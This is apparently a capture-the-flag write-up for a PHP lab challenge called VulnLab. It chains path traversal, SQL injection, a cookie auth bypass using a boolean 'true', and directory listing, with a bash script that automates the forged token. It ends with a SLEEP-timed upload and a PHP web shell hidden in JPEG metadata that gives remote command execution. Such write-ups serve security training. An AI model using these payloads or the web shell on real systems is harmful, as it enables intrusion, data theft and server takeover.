 # VulnLab

<figure><img src="../../.gitbook/assets/pic8.png" alt=""><figcaption></figcaption></figure>

Upon browsing our VulnLab instance we immediately notice a request to `/thumbnail?file=bg2.jpg`. The first thing that comes to mind is of course path traversal. In fact if we request `/etc/passwd` with a classic payload we get an error message:

```
GET /thumbnail?file=../../../../../../../etc/passwd HTTP/1.1

Reading content from this directory is denied
```

which is different from say this one:

```
GET /thumbnail?file=../../../../../../../tmp/foobar HTTP/1.1

File doesn't exist
```

We keep this information in mind for the moment: it will be useful later. The second thing that stands out are requests to an `/analytics` endpoint:

```
GET /analytics?page=/news/1 HTTP/1.1
```

It's easy to see that `/analytics` is vulnerable to SQL injection so we can dump the db where we find a users table:

```
Database: vulnlab
Table: user
[1 entry]
+----+----------------------------------+-----------+
| id | password                         | username  |
+----+----------------------------------+-----------+
| 1  | ******************************** | bob.jones |
+----+----------------------------------+-----------+
```

The hash did not crack - at least for me - but now we have a valid username we can use and try bruteforcing the login form:

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Finding a valid password is of course left as an exercise to the reader, but like in any Adam's challenge, when bruteforce is involved you can just use wordlists suggested on HackingHub.io.

We now have a new endpoint `/account/files` that lists our user's medical results:

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

```
GET /account/files HTTP/1.1

{"files":[{"link":"\/uploads\/bob.jones\/medical-report-to-complete.pdf","name":"medical-report-to-complete.pdf","extension":"pdf","size":60154}]}
```

Here we notice that we have "files" list where bob.jones, our username, is somehow involved in the path.

More importantly, upon logging in we have a strange cookie that contains some useful information:

```
Cookie: token=eyJkYXRhIjoiZXlKcFpDSTZNaXdpZFhObGNtNWhiV1VpT2lKaWIySXVhbTl1WlhNaWZRPT0iLCJhdXRoIjoiNmI3ZjZjYzI0NjhjNzBhN2U5N2I0MjM3ZGEyMDBmY2YifQ%3D%3D
```

The cookie decodes to

```
{"data":"eyJpZCI6MiwidXNlcm5hbWUiOiJib2Iuam9uZXMifQ==","auth":"6b7f6cc2468c70a7e97b4237da200fcf"}
```

and the info inside the JSON data attribute decodes to:

```
{"id":2,"username":"bob.jones"}
```

Maybe if we are able to change the data inside the cookie to a path traversal payload like `"username"="../../../../etc/passwd"`, we can try to read arbitrary files.

This part can be tricky: the auth hash authenticates the information inside the data attribute of our JSON. Without knowing some secret information we cannot alter what's inside data. But we can fool the hash validation by changing the "auth" string with a boolean true:

```
{"data":"eyJpZCI6MiwidXNlcm5hbWUiOiJib2Iuam9uZXMifQ==","auth":true}
```

Notice that here we are using a "counterfit" token:

```
GET /account/files HTTP/1.1
Cookie: token=eyJkYXRhIjoiZXlKcFpDSTZNaXdpZFhObGNtNWhiV1VpT2lKaWIySXVhbTl1WlhNaWZRPT0iLCJhdXRoIjp0cnVlfQ%3d%3d

{"files":[{"link":"\/uploads\/bob.jones\/medical-report-to-complete.pdf","name":"medical-report-to-complete.pdf","extension":"pdf","size":60154}]}
```

This not only works without giving errors, but it allows us to alter the inner content of the data attribute. Using a very handy burp extension which is called Hackvector (or of course constructing payloads manually) we can use something like this:

```
GET /account/files HTTP/1.1
Host: veap5r6i.eu1.ctfio.com
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../../etc/passwd"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>

{"error":"Not a valid directory"}
```

and we get an interesting error. What if we try to look at /etc or /tmp?

```
GET /account/files HTTP/1.1
Host: veap5r6i.eu1.ctfio.com
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../../etc"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>

{"files":[{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/.pwd.lock","name":".pwd.lock","extension":"lock","size":0},{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/X11","name":"X11","extension":"","size":4096},{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/adduser.conf","name":"adduser.conf","extension":"conf","size":3028},...
```

Interestingly enough we have a way to list directories.

If you want to play around an alternative way is using a simple bash script:

{% code title="lfi-exploit.sh <domain> <path>" lineNumbers="true" %}
```bash
#!/bin/sh

inside='{"id":2,"username":"'$2'"}'
inside=$(/bin/echo -n $inside | base64)
token=$(/bin/echo -n '{"auth":true,"data":"'$inside'"}' |base64)

echo $token
curl $1/account/files -H "Cookie: token=$token" | jq
curl $1/account/files -H "Cookie: token=$token" | jq  -r '.files[] |.link'
```
{% endcode %}

For flag number 2 it's enough to list `../` to find a secret file.

But now what? Remember that at this point we have three things that we have to put together to reach a much better result (RCE in the end):

1. a SQL injection on `/analytics?page=/news/1`;
2. the possibility to list directories, and in particular `/tmp`;
3. maybe (we are not sure yet), the possibility to include files from `/tmp` directory via `/thumbnail?file=../../../../../../../tmp/foobar`.

Are we able to upload files to /tmp? Sure: during file upload PHP, the language of choice by Adam, creates temporary files under /tmp. Files have a random name, so it will be hard to list /tmp/ with the second vulnerability unless we can also let the server SLEEP during upload using the SQL injection. So we can try something like this:

```
POST /analytics?page=a';SELECT+SLEEP+(60)%23 HTTP/1.1
...
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoy6htU17IDYnPK7v
Content-Length: 221

------WebKitFormBoundaryoy6htU17IDYnPK7v
Content-Disposition: form-data; name="file_to_upload"; filename="shell.php"
Content-Type: text/php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryoy6htU17IDYnPK7v--
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

this gives us 60 second to list files under /tmp/:

```
GET /account/files HTTP/1.1
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../tmp/"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

So now it's just a matter of including what we uploaded and...

```
GET /thumbnail?file=../../../../../../../tmp/phpzaP6ow HTTP/1.1

HTTP/1.1 200 OK
Server: nginx/1.22.0 (Ubuntu)
Date: Sat, 06 Jul 2024 15:02:10 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Content-Length: 22

Not a valid image file
```

we need to overcome the last defense with a real image that also contains actual php code.

Please note that a valid jpg image is necessary because, as you will see once you have a shell, there is this restriction in place:

```php
if (@exif_imagetype($file)) {
	header('Content-Type: image/jpg');
	include_once($file);
} else {
	die("Not a valid image file");
}
```

I order to facilitate the process we can create a very simple form on our machine to do the POST:

```html
<form method="post" enctype="multipart/form-data" action="https://xyz.eu1.ctfio.com/analytics?page=a';SELECT SLEEP(300)-- -">
        <input type="file"  name="file_to_upload" >
        <input type="submit" name="submit">
        </form>
```

and before uploading a real jpg we can insert in it a PHP payload with exiftool:

```bash
exiftool  -author='<?php system($_GET["cmd"]); ?>' test.jpg
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

This part can be quite tricky but in the end you will have command exectuion and you can also grab a valid shell

```bash
www-data@3af02839d4cf:/$ wc -c /flag.txt
46 /flag.txt
```
